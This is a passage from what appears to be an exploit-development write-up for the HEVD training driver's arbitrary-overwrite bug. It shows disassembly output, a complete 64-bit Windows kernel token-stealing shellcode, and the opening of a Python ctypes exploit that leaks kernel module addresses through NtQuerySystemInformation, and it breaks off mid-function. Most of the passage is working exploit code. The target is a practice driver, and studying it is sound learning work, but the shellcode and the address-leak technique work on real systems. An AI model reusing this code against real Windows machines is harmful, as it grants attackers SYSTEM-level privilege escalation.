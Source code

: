 This is still not optimal, as you can see, we're still directly writing to memory that is at a very low address space and will cause us problems most likely. However, we did successfully truncate this series of operations to only 3 bytes! I started spamming potential 3rd byte padding candidates with a script and eventually landed on candidate `\xff`. Let's test this out and see if this works for our purposes:
```
root@kali:~# echo -ne '\x26\x00\xff\x50\x51\x41\x53\x52\x48\x31\xC0\x65\x48\x8B\x80\x88\x01\x00\x00' | ndisasm -b64 -
00000000  2600FF            es add bh,bh
00000003  50                push rax
00000004  51                push rcx
00000005  4153              push r11
00000007  52                push rdx
00000008  4831C0            xor rax,rax
0000000B  65488B8088010000  mov rax,[gs:rax+0x188]
```

Wow, now this is perfect. All we're doing now is just adding a register to a register. There's not really any way this can get us in trouble. And since our shellcode runs directly after this first operation, if we had to, we could change the register back to its original value with no problem!

This instruction `es add bh,bh` doesn't really cause problems either. You can read [here](https://stackoverflow.com/questions/19739303/what-does-mean-in-x86) about how data segment registers work on 64 bit operating systems. 

So this is perfect. We can update our shellcode now to be the following:
```
"\x90\x90\xff\x50\x51\x41\x53\x52\x48\x31\xC0\x65\x48\x8B\x80\x88\x01\x00\x00"
"\x48\x8B\x40\x70\x48\x89\xC1\x49\x89\xCB\x49\x83\xE3\x07\xBA\x04"
"\x00\x00\x00\x48\x8B\x80\x88\x01\x00\x00\x48\x2D\x88\x01\x00\x00"
"\x48\x39\x90\x80\x01\x00\x00\x75\xEA\x48\x8B\x90\x08\x02\x00\x00"
"\x48\x83\xE2\xF0\x4C\x09\xDA\x48\x89\x91\x08\x02\x00\x00\x5A\x41"
"\x5B\x59\x58\xc3"
```

If we update our script with that shellcode, our final exploit code becomes:
```python
import ctypes, sys, struct
from ctypes import *
from ctypes.wintypes import *
from subprocess import *

kernel32 = windll.kernel32
ntdll = windll.ntdll

# HEVD!TriggerArbitraryOverwrite instructions: 
# mov     r11,qword ptr [rbx]
# mov     qword ptr [rdi],r11

def base():
    
    print("[*] Calling NtQuerySystemInformation w/SystemModuleInformation")
    sys_info = create_string_buffer(0)
    sys_info_len = c_ulong(0)

    ntdll.NtQuerySystemInformation(
        0xb,
        sys_info,
        len(sys_info),
        addressof(sys_info_len)
    )

    sys_info = create_string_buffer(sys_info_len.value)

    result = ntdll.NtQuerySystemInformation(
        0xb,
```